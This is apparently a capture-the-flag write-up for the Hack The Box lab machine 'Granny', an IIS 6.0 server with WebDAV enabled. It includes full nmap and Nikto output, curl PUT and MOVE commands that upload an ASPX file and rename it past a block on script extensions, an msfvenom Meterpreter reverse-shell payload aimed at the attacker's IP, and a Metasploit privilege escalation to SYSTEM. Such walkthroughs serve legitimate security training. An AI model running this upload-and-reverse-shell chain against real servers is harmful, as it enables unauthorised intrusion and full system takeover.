 # Granny

## Information Gathering
Granny<br>
10.10.10.15<br>

Software Version
- MicrosoftOfficeWebServer 5.0_Pub
- Microsoft-IIS/6.0

## Enumeration
Of course start with your nmap:
```bash
# Nmap 7.92 scan initiated Sun Feb 20 14:51:07 2022 as: nmap -p- -A -oN nmap/all_ports.nmap 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.027s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Sun, 20 Feb 2022 20:00:12 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows Server 2003 SP1 or SP2 (89%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows Server 2008 Enterprise SP2 (89%), Microsoft Windows XP SP3 (89%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (87%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows Server 2003 SP1 - SP2 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.70 ms 10.10.14.1
2   26.71 ms 10.10.10.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 14:53:11 2022 -- 1 IP address (1 host up) scanned in 123.86 seconds

```
I also run a Nikto scan:
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 1.1.4322
+ OSVDB-397: PUT HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: DELETE HTTP method 'DELETE' allows clients to delete files on the web server.
+ OPTIONS Retrieved dasl header: <DAV:sql>
+ OPTIONS Retrieved dav header: 1, 2
+ OPTIONS Retrieved ms-author-via header: MS-FP/4.0,DAV
+ OPTIONS Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS WebDAV enabled (MKCOL PROPPATCH COPY UNLOCK PROPFIND SEARCH LOCK listed as allowed)
+ OSVDB-13431: PROPFIND PROPFIND HTTP verb may show the servers internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: GET /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: GET /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: GET /_private/: FrontPage directory found.
+ OSVDB-3233: GET /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: GET /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: GET /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: GET /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. CVE-1999-1376. BID-2252.
+ OSVDB-67: POST /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ GET /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.

```

## Exploitation
This server has the vulnerable PUT HTTP verb enabled. This allows for an attacker to upload a file to the server. Looking at what scripting language is running on this server (by looking at the HTTP headers) it appears the server is powered by ASP.NET. <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT">Here</a> is how to use PUT. I first test to see whether I can upload files:
```bash
curl -X PUT 'http://10.10.10.15/shell.txt' --data-binary @shell.txt
```
I am able to hit this file.<br>
Next, I generate a payload using msfvenom:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -lhost 10.10.14.122 -lport 1337 -f aspx -o shell.aspx
```
You can upload the file using a proxy like Burp but I use cURL.
```bash
curl -X PUT 'http://10.10.10.15/shell.aspx' --data-binary @shell.aspx
```
However, this returns a 403 - Forbidden code. There is probably something blocking scripting files from being uploaded. Luckily, the MOVE HTTP verb is enabled which allows me to rename files. <a href="https://docs.microsoft.com/en-us/previous-versions/office/developer/exchange-server-2003/aa142926(v=exchg.65)">Here</a> is how to use MOVE. I rename the file to have a .txt extension and reupload the file then use MOVE to rename the file to have the .aspx extension.
```bash
curl -X PUT 'http://10.10.10.15/shell.txt' --data-binary @shell.txt
curl -X MOVE 'http://10.10.10.15/shell.txt' -H 'Destination: http://10.10.10.15/shell.aspx'
```
Begin the Metasploit listener <b>windows/meterpreter/reverse_tcp</b> and server shell.aspx to get a web shell.
```
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

## Privilege Escalation
We start out as a Network Service. A user with low privileges. I background the prcoess and load <b>post/multi/recon/local_exploit_suggester</b> and run it.
```
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 38 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable. -
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated. -
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable. -
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable. -
[*] Post module execution completed
```
The first exploit that worked for me was <b>exploit/windows/local/ms14_058_track_popup_menu</b>. This gives me an Administrator shell.
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
